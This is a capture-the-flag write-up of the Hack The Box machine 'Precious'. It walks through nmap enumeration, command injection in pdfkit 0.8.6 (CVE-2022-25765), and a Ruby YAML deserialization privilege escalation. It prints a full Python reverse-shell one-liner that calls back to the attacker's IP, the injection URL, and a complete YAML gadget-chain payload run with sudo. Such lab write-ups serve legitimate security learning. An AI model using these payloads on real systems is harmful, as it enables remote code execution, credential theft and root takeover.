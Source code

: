 ## Enumeration
nmap scan:
```
# Nmap 7.93 scan initiated Mon Feb 20 17:17:13 2023 as: nmap -p- -sCV --min-rate=10000 -o preciousnmap.txt 10.10.11.189
Warning: 10.10.11.189 giving up on port because retransmission cap hit (10).
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.090s latency).
Not shown: 65257 closed tcp ports (conn-refused), 276 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 20 17:17:35 2023 -- 1 IP address (1 host up) scanned in 21.95 seconds
```

The website has a text input box, and the purpose of it is to convert web pages to PDF files. I started playing around with it: 
- `10.10.11.189` returned `You should provide a valid URL!`.
`http://10.10.11.189` returned `Cannot load remote URL!`. Okay, so I can assume it's expecting a `http://` format, especially considering that it was expecting a URL and it changed its output.

![[Pasted image 20230221102050.png]]

So I couldn't access the web page of itself, so how about another IP on its network? How about me? So I spun up my own web server with the Python http.server module: `python3 -m http.server 80 `
- It's important to specify port 80 because the default port for Python's http.server is 8080, and that's not what the website is expecting.

I inputted my own (VPN) IP in the `http://` format: `http://10.10.14.4`, and what do you know, it created a PDF of my web page :)
![[Pasted image 20230221131534.png]]

Now that I had something new to work with, I wanted to know more about this file. I ran a common file forensics tool called `exiftool` on the file: 
`exiftool fo99la37ukytqmhduq8elzoqbudbyvu9.pdf `
```
ExifTool Version Number         : 12.52
File Name                       : fo99la37ukytqmhduq8elzoqbudbyvu9.pdf
Directory                       : .
File Size                       : 36 kB
File Modification Date/Time     : 2023:02:20 16:39:42-08:00
File Access Date/Time           : 2023:02:20 16:40:16-08:00
File Inode Change Date/Time     : 2023:02:20 16:39:42-08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

The important line here is `Creator: Generated by pdfkit v0.8.6`
This immediately sparked my eye, mainly because it had a version number which is important when searching for valid exploits. I searched `pdfkit v0.8.6 exploits` and the first thing that popped up was "Command Injection in pdfkit | CVE-2022-25765".

After looking through this exploit's documentation, all I had to do was establish a parameter containing a URL encoded character, and specify the shell command I wanted it to execute: ``http://10.10.14.4?bruh=%20`id`
![[Pasted image 20230221101921.png]]

- One important think I learned is that when I need to type tedious things, just copy and paste T_T. I'm a fast typer, and a pretty accurate one too, but sometimes even a single typo can invalidate your exploit. After all, exploits are usually unusual vulnerabilities

After inputting this to the site, I was returned a pdf that displayed my user id. Confirming that code injection worked, I chose to establish a reverse shell using Python: 
When establishing a reverse shell, you want to have a listener on your attacking machine, and for your victim machine to execute code that will establish remote connection to **you**.

I had checked Python was on the box with: ``http://10.10.14.4?bruh=%20`which python3`
![[Pasted image 20230221101956.png]]


Listener on attacking machine: `nc -lvnp 6666` - \* *You can choose any port number, I just like 6666 (:* \*

Code to be executed on victim machine: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.4",6666));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`

Formatted string to the input box on the website that is vulnerable to code injection, therefore will run the above command: ``http://10.10.14.4?bruh=%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.4",6666));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'``

And just like that, after sending that request to the page, I got a shell in my terminal.
![[Pasted image 20230221102341.png]]


#### Privilege Escalation
I had access to the machine, but I was user `ruby`. I explored my scope by `cd`ing around, but what I had needed was right there in my home directory the entire time. `ls -lah` revealed the `.bundle` directory. In this directory was a file named `config`, in which `cat config` revealed creds to the user `henry`. 
![[Pasted image 20230221102618.png]]

I always `ssh` into new users if possible, because I want a fully interactive shell. I `ssh`d into user `henry` and from here I got the user hash in `user.txt`. 
![[Pasted image 20230221102756.png]]


From here, the next and last step was getting `root`. The first thing I ran was `sudo -l` and what do ya know, I can run a certain command as root :)

![[Pasted image 20230221102833.png]]

Now I'm not pro at ruby; actually, I know essentially nothing about ruby. But I tried running this command, and it gave me an error output: ![[Pasted image 20230221103027.png]]

It was telling me that on execution, ruby was expecting `dependencies.yml`. Although the other paths were absolute file paths, I assumed that the `dependencies.yml` was a relative file path to my home directory. So to test this out, I created `dependencies.yml` in my home directory. Then I tried running it again. This time I got a different output:
![[Pasted image 20230221103340.png]]

This told me that this was the file that it was looking for. Now, how could I escalate my privilege with this?

I read up on what `dependencies.yml` typically contains in the context of `ruby`. The more I thought about it, the more I realized that I could possibly achieve code exeuction through this file, as the command indeed was reading the file: `YAML.load(File.read("dependencies.yml"))`
![[Pasted image 20230221103639.png]]

So I searched for `ruby yaml exploits` and oh wow, there's an exploit that perfectly does what I want it to do (: %%I learned that this kind of exploit is called deserialization%% 

https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: id
          method_id: :resolve
```

The important line here is `git_set`, the parameter where I specify the shell command I want executed. I copied and pasted this into `dependencies.yml`. I tried `id` initially, in which I got `henry`'s id returned to me. I tried running it with `sudo`, and I got `root`'s id returned to me! 

![[Pasted image 20230221104600.png]]

![[Pasted image 20230221104621.png]]

And the last step was running a shell command that would get me to `root`. I changed `git_set: id` to `git_set: su`. Then I executed the command again with `sudo`.

![[Pasted image 20230221104800.png]]

Bing bang boom, `root` :P
![[Pasted image 20230221115550.png]]


Something kinda fun I want to point out is how ruby is an interpreted language, meaning that the code runs line by line as it is interpreted into machine language. It is only when it encounters an error that it then stops running. This is why the code was able to run and provide me the output of `id` and even execute `su`, while returning error messages afterwards.